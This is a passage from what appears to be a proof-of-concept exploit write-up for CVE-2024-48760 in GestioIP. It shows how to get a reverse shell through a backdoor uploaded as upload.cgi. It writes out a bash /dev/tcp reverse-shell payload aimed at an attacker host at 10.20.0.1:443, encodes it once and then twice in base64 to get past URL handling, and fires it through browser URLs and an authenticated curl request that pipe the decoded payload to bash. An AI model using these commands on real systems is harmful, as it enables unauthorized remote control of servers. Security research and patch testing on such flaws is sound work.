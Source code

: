 

### Option 2: using base64 and bash to execute the reverse shell


#### Single Encode base64

Encode your payload like this:

```
echo 'bash -i >& /dev/tcp/10.20.0.1/443 0>&1' | base64         

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yMC4wLjEvNDQzIDA+JjEK
```

So, you can call the backdoor from the browser

```
http://localhost/gestioip/api/upload.cgi?echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yMC4wLjEvNDQzIDA+JjEK' | base64 -d | bash
```


and receive the reverse shell:

![](files/CVE-2024-48760-6.png)

#### or: double encode your payload (to avoid '+' signs)

```bash

echo 'bash -i >& /dev/tcp/10.20.0.1/443 0>&1' | base64 | base64

WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHlNQzR3TGpFdk5EUXpJREErSmpFSwo=

```

If you used double encode, the URL would be:

```
http://localhost/gestioip/api/upload.cgi?echo 'WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHlNQzR3TGpFdk5EUXpJREErSmpFSwo=' | base64 -d | base64 -d | bash
```

instead of using the browser you could use `curl` too:

```
urlencode "echo 'WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHlNQzR3TGpFdk5EUXpJREErSmpFSwo=' | base64 -d | base64 -d | bash"

curl -u gipadmin:PASSWORD "http://localhost/gestioip/api/upload.cgi?echo%20%27WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHlNQzR3TGpFdk5EUXpJREErSmpFSwo%3D%27%20%7C%20base64%20-d%20%7C%20base64%20-d%20%7C%20bash"
```
